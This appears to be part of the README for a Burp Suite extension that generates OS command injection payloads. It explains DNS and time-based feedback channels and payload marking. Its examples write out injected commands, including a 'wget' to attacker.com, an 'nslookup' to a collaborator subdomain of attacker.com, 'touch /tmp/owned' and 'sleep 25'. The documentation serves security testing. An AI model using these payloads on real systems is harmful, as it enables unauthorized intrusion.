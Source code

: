 Burp Collaborator is heavily used by the Burp Active Scanner. 

It can as well be used manually (just click on 'Burp'->'Burp Collaborator Client' and try it out yourself), so it can be combined with manual or semi-automated attacks (Repeater, Intruder, tampering through proxy, forging files, using external tools and so on).

Luckily, Burp Suite also provides Burp Collaborator API so it can be used by extensions (and this is exactly what this plugin is doing when **DNS** feedback channel is used).

Service-wise, please keep in mind you can either use the default Collaborator service provided by Portswigger or set up your own. 

Having and using a private Collaborator service makes more sense if we set it up with a domain name as short as possible, like x.yz, so the domain names used in the payloads can look like `55.5aglyjo4e8v6j2ot2f255fraw12rqg.n.xy.z` instead of `55.5aglyjo4e8v6j2ot2f255fraw12rqg.burpcollaborator.net`. The longer our payload is, the higher chances for a false negative (the application might reject our payload due to its excessive length before it reaches the vulnerable code).

Also, it's good to always run a health check of the Collaborator service before actually using it.

### time
This is a well known feedback channel for detecting so called 'blind' variant of injection vulnerabilities. It's faster and it does not require external service like DNS. Also, the payloads are shorter. It shouold still be considered less reliable as it will NOT detect asynchronous vulnerabilities, whereas the payload is stored first and then executed by a different process or even system.
Upon successful execution, payloads utilizing this feedback channel (e.g. `sleep 25`) cause a significant delay in the response.

## Payload marking
The payload marking mechanism is very simple. Every single payload generated by the tool has its number (starting at 1). 
If payload marking feature is on, upon generation, all instances of the special holder string `PAYLOAD_MARK` in the argument field are replaced with the payload number. This makes it easier to trace back the result to the successful payload that created it. 

For example, if the command is set to `touch` and the argument is set to `/tmp/owned.PAYLOAD_MARK`, once the attack is finished and there is a file named `/tmp/owned.1337`, we know that payload number 1337 was the one responsible for creating the file. 

We could likewise do something like command=`echo` and argument=`PAYLOAD_MARK>>/tmp/owned`. This way the file `/tmp/owned` would contain all the IDs of the payloads that worked.

The third example could be command=`wget` and argument=`http://attacker.com/owned.PAYLOAD_MARK` if attacker.com is our controlled server to observe interactions.

The fourth example could be command=`nslookup` and argument=`PAYLOAD_MARK.collaborator.attacker.com`, so if our DNS server receives a lookup like `66.collaborator.attacker.com`, we know it was triggered by the 66th payload. 

If payload marking feature is off, the `PAYLOAD_MARK` holder - if present - is simply removed from the eventual payload.

## Difference between manual and automatic mode
The mode setting only applies to Intruder and Export (and is ignored by the Active Scanning extension, which is always using the *auto* mode regardless to this setting).
